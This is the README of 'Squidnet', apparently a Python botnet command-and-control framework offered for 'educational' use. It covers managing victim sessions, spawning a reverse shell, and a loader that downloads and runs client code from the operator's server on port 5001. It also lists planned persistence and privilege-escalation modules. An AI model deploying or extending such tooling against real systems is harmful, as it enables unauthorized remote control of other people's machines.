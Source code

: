 # Squidnet - Bot net framework

This project is a basic Python-based Bot net framework for educational and ethical testing purposes. It allows you to establish communication with a remote victim, send commands, and remotely run modules.

**Disclaimer:** This code is provided for educational and research purposes only. The author is not responsible for any misuse of this software. Use it responsibly and ethically, and only on systems you have explicit permission to test.

## Features

*   **Multi-Session Handling:** Manage multiple client connections simultaneously.
*   **Reverse Shell:** Spawn a basic reverse TCP shell on the target client (currently under development).
*   **Modular Design:** Easily extend the framework with new modules.
*   **Dynamic Module Loading:** Load modules from a remote server at runtime (security considerations apply).
*   **Basic Command Set:** Includes commands for testing connectivity, changing sessions, and more.
*   **Docker Support:** Run the server in a containerized environment.

## Getting Started

### Prerequisites

*   Python 3.x
*   Docker (optional, but recommended)
*   pip

### Installation

1.  **Clone the repository:**

    ```bash
    git clone <repository_url>
    cd <repository_name>
    ```

2.  **Install dependencies:**

    ```bash
    pip install -r requirements.txt
    ```

### Running with Docker (Recommended)

1.  **Build the Docker image:**

    ```bash
    docker build -t squidnet .
    ```

2.  **Run the server (using host networking for external access):**

    ```bash
    docker run -it --network host squidnet
    ```

### Running without Docker

1.  **Start the server:**

    ```bash
    python3 server.py
    ```

### Running the Loader

1. **Modify the loader**
  Modify the `loader.py` file so that the url variable points to your servers ip address. For example:
    ```
    url = f"http://<server_ip>:5001/client.py"
    ```
2.  **Run the loader**

    ```bash
    python3 loader.py
    ```

## Usage

1.  **Server Commands:**

    *   `commands`: List all available commands.
    *   `help <command>`: Get help for a specific command.
    *   `session <session_id>`: Switch to a specific session.
    *   `test-con`: test the connection to a session
    *   `shell`: Spawn a reverse shell (currently requires manual interaction on the client-side to complete the connection, check server logs for the client ip address).
    *   `quit`: Exit the server.

2.  **Client Deployment:**

    *   The `loader.py` script downloads and executes `client.py`. You'll need to modify `loader.py` to point to your server's IP address and port where the module server is running (default: `http://<server_ip>:5001/client.py`).

## Future Enhancements

*   **Complete Reverse Shell Implementation:**  Fully develop the `tcp_shell.py` module.
*   **Windows Payloads:** Add support for Windows clients.
*   **Database Integration:** Store session information, logs, and other data in a database.
*   **Persistence:** Implement mechanisms for client persistence on the target system.
*   **Privilege Escalation:** Add modules for privilege escalation.
*   **Cross-Compilation:** Compile payloads for different operating systems automatically.
*   **Authentication and Encryption:** Secure communication between the server and clients.
*   **Web UI:** Develop a web-based user interface for easier management.


## Contributing

Contributions are welcome! Please feel free to submit pull requests or open issues to discuss improvements or bug fixes.

## License

This project is licensed under the [MIT License](LICENSE) - see the LICENSE file for details. (You'll need to create a LICENSE file and put the MIT License text in it).

